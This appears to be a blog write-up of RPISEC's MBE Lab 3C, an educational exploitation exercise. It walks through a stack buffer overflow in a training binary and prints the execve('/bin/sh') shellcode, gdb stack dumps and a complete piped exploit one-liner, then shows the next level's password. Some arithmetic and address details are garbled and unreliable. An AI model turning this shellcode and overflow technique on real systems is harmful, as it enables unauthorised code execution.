```yaml
---
layout: post
title: Baby's First Shellcode - MBE Lab 3C Writeup
tags: 
- ctf
- writeups
- MBE
- shellcode
---
```


I've been working through [RPISEC's course on Modern Binary Exploitation](https://github.com/RPISEC/MBE) as a refresher on reverse engineering and pwning. I've kept loose notes and writeups of the labs but want to write some more solid writeups here, so that future me can come back and read these in case I forget how to do them.

---

This first one will be on Lab 3C -- the first lab that requires **shellcoding**. The lab itself is the textbook example of exploiting a program vulnerable to shellcode injection. We're given a 32-bit [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) binary (`lab3C`) and the corresponding source code:

**lab3C.c**
---

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* gcc -z execstack -fno-stack-protector -o lab3C lab3C.c */

char a_user_name[100];

int verify_user_name()
{
    puts("verifying username....\n");
    return strncmp(a_user_name, "rpisec", 6);
}

int verify_user_pass(char *a_user_pass)
{
    return strncmp(a_user_pass, "admin", 5);
}

int main()
{
    char a_user_pass[64] = {0};
    int x = 0;

    /* prompt for the username - read 100 byes */
    printf("********* ADMIN LOGIN PROMPT *********\n");
    printf("Enter Username: ");
    fgets(a_user_name, 0x100, stdin);

    /* verify input username */
    x = verify_user_name();
    if (x != 0){
        puts("nope, incorrect username...\n");
        return EXIT_FAILURE;
    }

    /* prompt for admin password - read 64 bytes */
    printf("Enter Password: \n");
    fgets(a_user_pass, 0x64, stdin);

    /* verify input password */
    x = verify_user_pass(a_user_pass);
    if (x == 0 || x != 0){
        puts("nope, incorrect password...\n");
        return EXIT_FAILURE;
    }

    return EXIT_SUCCESS;
}

```

Let's take a quick look at the above code. First, the user is prompted for a username, which is checked against the string `rpisec` using `strncmp`. If the input string is `rpisec`, then the user is allowed to proceed. Next, the user is prompted for a password, which is checked against the string `admin`, again using `strncmp`. This time, if the string equals or does not equal admin, the user is told that they have failed. Essentially, the user will always get this incorrect password message, which doesn't really matter to us since we're trying to execute a shell.

There are several telling signs that this is vulnerable to shellcode injection:

1. The compile flag `-z execstack` allows data on the stack to be executed as instructions
2. The compile flag `-fno-stack-protector` disables the detection mechanisms that guard against stack smashing.
3. The buffers `a_user_name` and `a_user_pass` are 100 bytes and 64 bytes respectively but the calls to `fgets` read in 0x100 and 0x64 bytes, allowing for buffer overflow.
4. The lab happens right after the shellcoding lecture, of course.

This gives us potentially 0x100 + 0x64 = 256 + 100 + 356 bytes (!!) to work with. Some of this will be padded with `\x90` for our [NOP sled](https://en.wikipedia.org/wiki/NOP_slide), but in the end, 356 bytes is more than enough to pop a shell.

Now let's grab a suitable piece of shellcode for x86 that we can use as part of our payload:

```asm
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax
   3:   68 2f 73 68 00          push   0x68732f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   89 c1                   mov    ecx,eax
  11:   89 c2                   mov    edx,eax
  13:   b0 0b                   mov    al,0xb
  15:   cd 80                   int    0x80
  17:   31 c0                   xor    eax,eax
  19:   40                      inc    eax
  1a:   cd 80                   int    0x80
```

The above shellcode is roughly similar to this snippet of C code:

```c
exec("/bin/sh");
exit(0);
```

This will give us a shell as the owner of the program (`lab3B`) due to the way these lab binaries are set up. Our above shellcode is only 28 bytes in length, so we could put our entire payload within the space of `a_user_pass`, since we'll need to do a buffer overflow here anyways in order to modify the return address from `main()`. Note that it's entirely possible to put the payload in `a_user_name` and just have our modified return address from `main()` jump to that. This is due to the fact that `strncmp` is being used for the user name. So for our "username", we could enter `rpisec` followed by the payload and the program would happily accept our username since the first six characters match as expected. No matter what we put there, we still have to get to overflowing the `a_user_pass` buffer. For this, we need to figure out where the return address is in relation to the beginning of `a_user_pass`. Let's look at the first chunk of the assembly code of the `main()` function from running `objdump -d lab3C`:

```asm
08048790 <main>:
 8048790:       55                      push   %ebp
 8048791:       89 e5                   mov    %esp,%ebp
 8048793:       57                      push   %edi
 8048794:       53                      push   %ebx
```

It's important to note that `%edi` and `%ebx` are being pushed onto the stack, as they are [callee saved registers](https://en.wikipedia.org/wiki/X86_calling_conventions). In addition to this, we have `%ebp` pushed onto the stack (as is customary when entering a function in x86), as well as the `int` variable `i`, which during the `main()` function, lives at `$esp+0x5c`. This means that the beginning of `a_user_pass` is 64 (size of `a_user_pass`) + 4 (size of `i`) + 12 (combined size of `ebp`, `edi`, and `ebx`) = **80 bytes** before the return address we wish to overwrite. We can verify this in `gdb` by setting a breakpoint after the password is read in via `fgets()` in `main()` and seeing where our data was placed:

```sh
lab3C@warzone:/levels/lab03$ gdb lab3C
Reading symbols from lab3C...(no debugging symbols found)...done.
gdb-peda$ b *0x804883f
Breakpoint 1 at 0x804883f
gdb-peda$ r
Starting program: /levels/lab03/lab3C 
********* ADMIN LOGIN PROMPT *********
Enter Username: rpisec
verifying username....

Enter Password: 
AAAA
(... gdb peda context is omitted here for brevity ...)
gdb-peda$ x/28x $esp
0xbffff690:     0xbffff6ac      0x00000064      0xb7fcdc20      0xb7eb8216
0xbffff6a0:     0xffffffff      0xbffff6ce      0xb7e2fbf8      0x41414141
0xbffff6b0:     0x0000000a      0x00000000      0x00000000      0x00000000
0xbffff6c0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff6d0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff6e0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff6f0:     0xb7fcd000      0x00000000      0x00000000      0xb7e3ca83
```

We can see that `0x41414141` is the `AAAA` we input. Indeed, the return address `0xb7e3ca83` is **80 bytes** after the beginning of our buffer. All that's left to do is to find an address to jump to and then craft our final payload.

Since the bytes near the return address may get overwritten (`i` for example), let's put our shellcode such that it ends at least 16 bytes *prior* to the return address. Before our shellcode, we'll have our nop sled of `0x90`s. Our payload (in Python) looks like the following so far:

```python
SHELLCODE = "\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
RET_ADDR = "????"
print "rpisec" # Remember to input the username
print "\x90"*36 + SHELLCODE + "\x90"*16 + RET_ADDR
```

Notice that we're unsure what `RET_ADDR` should be. It just needs to be the address of somewhere in our NOP sled. In `gdb`, the beginning of `a_user_pass` was at `0xbffff6ac`. This address is different when the program is run without `gdb` and it's hard to say what the offset will be so it comes down to slight guesswork here. After trying a few addresses in the general range of the address I found in `gdb`, `0xbffff6c` ended up being the first one I found that worked. In addition to using Python to pipe our exploit into the binary, we need to also use `cat` so that our shell prompt is not exited out. Our final exploit is as follows:

```sh
(python -c 'print "rpisec"; print "\x90"*36 + "\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*16 + "\x8c\xf6\xff\xbf"'; cat;) | ./lab3C
```

And here it is in action:

```sh
lab3C@warzone:/levels/lab03$ (python -c 'print "rpisec"; print "\x90"*36 + "\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*16 + "\x8c\xf6\xff\xbf"'; cat;) | ./lab3C
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
lab3B
cat /home/lab3B/.pass
th3r3_iz_n0_4dm1ns_0n1y_U!
```

And we get the password for lab3B:

```
th3r3_iz_n0_4dm1ns_0n1y_U!
```
